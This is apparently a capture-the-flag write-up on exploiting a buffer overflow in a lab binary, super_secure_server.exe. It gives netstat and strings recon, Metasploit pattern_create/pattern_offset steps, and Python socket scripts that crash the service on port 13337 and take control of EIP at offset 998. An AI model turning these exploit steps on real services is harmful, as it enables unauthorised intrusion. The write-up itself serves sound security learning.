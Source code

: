 * `netstat -ano`
* found port `13337`


<img src="/img/crashed/port.PNG" alt="Getting-gz" width="800" height="440">

* use nc to connect `nc ip 13337`
* i open file by strings `strings super_secure_server.exe | more`
* found some command `HELP,SECRET >mission complete`

<img src="/img/crashed/strings.PNG" alt="Getting-gz" width="800" height="440">

*  `locate pattern_create.rb` from metasploit
* `./pattern_create.rb -l 2000`

<img src="/img/crashed/create.PNG" alt="Getting-gz" width="800" height="500">

 * open super_secure_server.exe by immunity debugger
 
 * use python code to send payload 
 * `import socket`
 * `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`
 * `payload='result 2000 from pattern_create'`# Aa0a...
 * `buffer="SECRET"+payload` # SECRET >recognized by server
 * `s.connect(("192.168.128.129",13337))`
 * `print s.recv(1024)`
 * `s.send(buffer)`
 * `s.close()`
 
 *  when send payload to the remote machine ,crash happen in super_secure_server.exe in deubugger
 
<img src="/img/crashed/crash.PNG" alt="Getting-gz" width="800" height="440">

* crash happen in offset 33684232(EIP)
* use pattern_offset.rb from metasploit to match offset
* `locate pattern_offset.rb`
* `/pattern_offset.rb -l 2000 -q 33684232`> 998

<img src="/img/crashed/offset.PNG" alt="Getting-gz" width="800" height="100">
  
  * step 1 - controlling EIP
  * I send payload again but change buffer
  * use python code to send payload 
 * `import socket`
 * `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`
 * `payload='A'*998`
 * `buffer="SECRET"+payload+'BBBB'+'C'*(2000-998-4-6)`
 * `s.connect(("192.168.128.129",13337))`
 * `print s.recv(1024)`
 * `s.send(buffer)`
 * `s.close()`

<img src="/img/crashed/bb.PNG" alt="Getting-gz" width="800" height="440">
